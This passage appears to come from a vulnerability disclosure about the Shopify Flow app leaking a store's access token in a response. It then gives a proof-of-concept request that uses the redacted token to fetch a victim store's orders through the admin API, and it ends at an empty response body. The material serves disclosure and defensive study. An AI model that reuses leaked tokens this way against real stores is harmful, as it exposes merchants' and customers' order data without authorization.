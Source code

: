 Contains some interesting information:
```
(...)
id: "44828"
partnerApps: "[...]"
shopId: "10361503766"
shopifyDomain: "victim-store-mariogh.myshopify.com"
shopifyToken: "████████"
(...)
```

Taking a closer look, you can spot that the **Access Token** is being returned in the response:
 `shopifyToken: "█████████"`

What's interesting about the Flow App is that it has access to all endpoints (or almost all) of a store in order to *Turn tasks into automations so you can get back to business.*

Proof of concept
=====================
Now, let's grab the **Access Token** to get unauthorized access to anything we may want in the store, for example, retrieving all orders with the **[Shopify REST API](https://help.shopify.com/en/api/reference)**.

Let's do a GET request the `/admin/orders.json` endpoint using the **Access Token** and see what happens:
██████████

**Request Headers**
```
GET /admin/orders.json HTTP/1.1
Host: victim-store-mariogh.myshopify.com
Accept: */*
User-Agent: Mozilla/5.0 (compatible; Rigor/1.0.0; http://rigor.com)
Content-type: application/json
X-Shopify-Access-Token: ██████████
```

**Response Body**
```
```